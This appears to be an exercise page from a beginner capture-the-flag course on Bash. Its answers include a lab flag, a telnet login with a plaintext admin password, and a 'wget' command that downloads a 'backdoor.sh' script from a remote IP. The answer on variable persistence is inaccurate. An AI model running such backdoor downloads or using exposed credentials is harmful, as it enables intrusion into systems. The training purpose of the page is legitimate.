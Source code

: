 [Summary](./README.md)

## Exercises

1. On your student machine what is the value of the FLAG environment variable ?

> FLAG : BC{EXPORT_B4SH_FLAG}

1. Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

> Commands : export command=something

1.  **From a hacker's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 119 telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!

1.  **From an analyst's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 95 wget http://10.88.56.53/backdoor.sh and the following lines

[Next](./Protocols_and_Servers.md)